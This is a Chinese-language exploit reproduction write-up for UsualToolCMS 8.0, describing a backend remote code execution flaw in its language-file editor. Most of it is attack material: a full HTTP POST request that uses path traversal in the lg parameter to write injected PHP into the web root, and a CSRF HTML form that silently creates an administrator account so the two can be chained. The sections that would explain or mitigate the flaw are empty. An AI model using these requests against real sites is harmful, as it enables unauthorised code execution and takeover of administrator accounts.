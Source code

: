 UsualToolcms 8.0 后台GETSHELL
=============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

洞点:<http://0-sec.org/cmsadmin/a_lang.php>

13行未对\$lg做判断

![](resource/UsualToolcms8.0后台GETSHELL/media/rId25.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId26.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId27.png)

点击保存时抓包需要修改url处的lg参数这样就上传到跟目录了，再在post
参数的en后面加入

    en"},<?php phpinfo(); ?>

![](resource/UsualToolcms8.0后台GETSHELL/media/rId28.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId29.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_langx.php?x=m&lg=../1.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_langx.php?lg=lg-en.json
    Cookie: navleft=21; UTCMSLanguage=zh; PHPSESSID=1r5kk3jieflfbnseav3e5dnclo
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 9189

    submit=保存语言包&keys[]=language&values[]=en"},<?php phpinfo(); ?>&keys[]=charset&values[]=utf-8&keys[]=speak&values[]=English&keys[]=web&values[]=UsualToolCMS&key[]=index&value[]=Home&key[]=article&value[]=Article&key[]=product&value[]=Product&key[]=picture&value[]=Picture&key[]=atlas&value[]=Atlas&key[]=contact&value[]=Contact&key[]=about&value[]=About&key[]=forum&value[]=Forum&key[]=register&value[]=Register&key[]=login&value[]=Login&key[]=news&value[]=News&key[]=job&value[]=Job&key[]=wages&value[]=Wages&key[]=application&value[]=Application&key[]=resume&value[]=Resume&key[]=shopcart&value[]=Shopcart&key[]=account&value[]=Account&key[]=member&value[]=Member&key[]=up&value[]=Up&key[]=down&value[]=Down&key[]=more&value[]=More&key[]=new&value[]=New&key[]=authorize&value[]=Authorize&key[]=authenticating&value[]=Authenticating&key[]=qq&value[]=QQ&key[]=membercenter&value[]=Member&key[]=username&value[]=Username&key[]=password&value[]=Password&key[]=forgotpass&value[]=Forgot&key[]=search&value[]=Search&key[]=detail&value[]=Detail&key[]=size&value[]=Size&key[]=spec&value[]=Spec&key[]=color&value[]=Color&key[]=aboutus&value[]=About Us&key[]=newgoods&value[]=New Product&key[]=topgoods&value[]=Top Product&key[]=link&value[]=Link&key[]=confirm&value[]=Confirm&key[]=email&value[]=Email&key[]=title&value[]=Title&key[]=content&value[]=Content&key[]=avatar&value[]=Avatar&key[]=sex&value[]=Sex&key[]=man&value[]=Man&key[]=woman&value[]=Woman&key[]=address&value[]=ADD.&key[]=tel&value[]=Tel&key[]=fax&value[]=Fax&key[]=introduction&value[]=Intro&key[]=validatecode&value[]=Captcha&key[]=changeit&value[]=Change it&key[]=order&value[]=Order&key[]=writeorder&value[]=Write Order&key[]=menu&value[]=Menu&key[]=balance&value[]=Balance&key[]=level&value[]=Level&key[]=writearticles&value[]=Write Articles&key[]=articlemanagement&value[]=Article Admin&key[]=articlebrowse&value[]=Article Browse&key[]=writeonline&value[]=Add New&key[]=payment&value[]=Payment&key[]=registrationtime&value[]=Reg Time&key[]=lastlogintime&value[]=Last Login&key[]=fullname&value[]=Full Name&key[]=privileges:discount&value[]=Privileges:Discount&key[]=state&value[]=State&key[]=source&value[]=Source&key[]=ordernumber&value[]=Order No.&key[]=money&value[]=Money&key[]=time&value[]=Time&key[]=finish&value[]=Finish&key[]=unpaid&value[]=Unpaid&key[]=deliver&value[]=Deliver&key[]=refund&value[]=Refund&key[]=goods&value[]=Goods&key[]=charge&value[]=Charge&key[]=other&value[]=Other&key[]=ordertime&value[]=Order Time&key[]=voucher&value[]=Voucher&key[]=customer&value[]=Customer&key[]=zipcode&value[]=Zip Code&key[]=logistics&value[]=Logistics&key[]=logisticscompany&value[]=Company&key[]=logisticsnumber&value[]=Number&key[]=logisticsdetails&value[]=Details&key[]=paymentmethod&value[]=Method&key[]=alipay&value[]=Alipay&key[]=wechatpay&value[]=Tencent Wechat&key[]=paypal&value[]=Paypal&key[]=waitinganswer&value[]=Waiting&key[]=answered&value[]=Answered&key[]=question&value[]=Question&key[]=reply&value[]=Reply&key[]=tencentaccount&value[]=Tencent&key[]=weiboaccount&value[]=Weibo&key[]=wechataccount&value[]=Wechat&key[]=binded&value[]=Binded&key[]=untie&value[]=Untie&key[]=quantity&value[]=Qty&key[]=parameter&value[]=Parm&key[]=total&value[]=Total&key[]=submit&value[]=Submit&key[]=delete&value[]=Del&key[]=unit&value[]=USD&key[]=actual&value[]=Actual&key[]=feedback&value[]=Feedback&key[]=otheraccount&value[]=Other Accounts&key[]=out&value[]=Out&key[]=ranking&value[]=Ranking&key[]=recommend&value[]=Recommend&key[]=tag&value[]=Tag&key[]=tags&value[]=Tags&key[]=read&value[]=Read&key[]=productdetails&value[]=Product Details&key[]=service&value[]=Service&key[]=category&value[]=Category&key[]=allcategory&value[]=All Category&key[]=stock&value[]=Stock&key[]=price&value[]=Price&key[]=sale&value[]=Sale&key[]=loginview&value[]=Login View&key[]=readme&value[]=Read Me&key[]=popularity&value[]=Popularity&key[]=details&value[]=Details&key[]=message&value[]=Message&key[]=original&value[]=Original&key[]=author&value[]=Author&key[]=pass&value[]=Pass&key[]=audit&value[]=Audit&key[]=return&value[]=Return&key[]=yes&value[]=Yes&key[]=no&value[]=No&key[]=modify&value[]=Modify&key[]=articlemodify&value[]=Article Modify&key[]=type&value[]=Type&key[]=moreupload&value[]=Up to upload&key[]=success&value[]=Success&key[]=fail&value[]=Fail&key[]=upload&value[]=Upload&key[]=uploadtime&value[]=Upload Time&key[]=contactus&value[]=Contact Us&key[]=previouspage&value[]=Prev&key[]=nextpage&value[]=Next&key[]=firstpage&value[]=First&key[]=lastpage&value[]=Last&key[]=totalpage&value[]=Total&key[]=currentpage&value[]=Current&key[]=buy&value[]=Buy&key[]=mailverify&value[]=Email validation&key[]=welcome&value[]=Welcome&key[]=close&value[]=closed&key[]=findpassword&value[]=Find Password&key[]=contactmanager&value[]=Contact Manager&key[]=orderdetaillogin&value[]=For order details,please visit the website.&key[]=enterusername&value[]=Please enter username!&key[]=enterpassword&value[]=Please enter password!&key[]=enteremail&value[]=Please enter Email!&key[]=emailerr&value[]=Email error!&key[]=entertitle&value[]=Please enter title!&key[]=entercontent&value[]=Please enter content!&key[]=selecttype&value[]=Type must be selected!&key[]=enterauthor&value[]=Please enter author!&key[]=enterpasswords&value[]=Please confirm the password!&key[]=passworderr&value[]=The codes don&key[]=entercaptcha&value[]=Please enter captcha!&key[]=captchaerr&value[]=Captcha error!&key[]=mailsenderr&value[]=Mail not sent!&key[]=mailok&value[]=Please check email!&key[]=pleasemailverify&value[]=Please check email for verification!&key[]=mailverifycode&value[]=Email Authentication Code&key[]=mailcopylink&value[]=Please copy the following link&key[]=totalnum&value[]=Total Num&key[]=updateok&value[]=Update successed!&key[]=updateno&value[]=Failed to update!&key[]=payok&value[]=Successful payment!&key[]=payno&value[]=Payment Failed!&key[]=createempty&value[]=Required field is empty!&key[]=createok&value[]=Create successed!&key[]=createno&value[]=Failed to create!&key[]=gotopay&value[]=Go to pay!&key[]=untieok&value[]=Untie successed!&key[]=untieno&value[]=Untie failed!&key[]=delok&value[]=Delete successed!&key[]=delno&value[]=Delete failed!&key[]=regclose&value[]=Website registration closed!&key[]=regmailerr&value[]=Account or email registered!&key[]=loginusererr&value[]=Account does not exist!&key[]=loginpasserr&value[]=Account or password does not match!&key[]=administratorreply&value[]=The administrator has not responded, please wait patiently.&key[]=noscript&value[]=Sorry, your browser disabled JavaScript, it may not be able to use some of the site&key[]=readmecontent&value[]=We guarantee that the outer packing of the goods is in good condition at the time of shipment. When you receive the goods, please carefully check whether the invoice and the goods are consistent with the delivery order. If you find that the goods are missing or damaged, please contact our customer service department on the spot when the delivery personnel are still on the scene; If you find that the package is damaged or the goods are damaged in transit, please point out and refuse to accept it on the spot. After refusal, please call our customer service. If you have signed for it or someone else has signed for it, you will be considered as the packaging, quantity and content of the goods. I will not be able to accept.&key[]=copyright&value[]=Copyright&key[]=cssdisplay&value[]=none&key[]=test&value[]=Test
    请将上面post数据包内容进行url编码

### csrf配合上面的后台getshell

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/cmsadmin/a_adminx.php?x=a" method="POST">
          <input type="hidden" name="username" value="safetest" />
          <input type="hidden" name="roleid" value="1" />
          <input type="hidden" name="password" value="123456" />
          <input type="hidden" name="password&#95;confirm" value="123456" />
          <input type="hidden" name="submit" value="æ&#143;&#144;äº&#164;" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![](resource/UsualToolcms8.0后台GETSHELL/media/rId32.shtml)
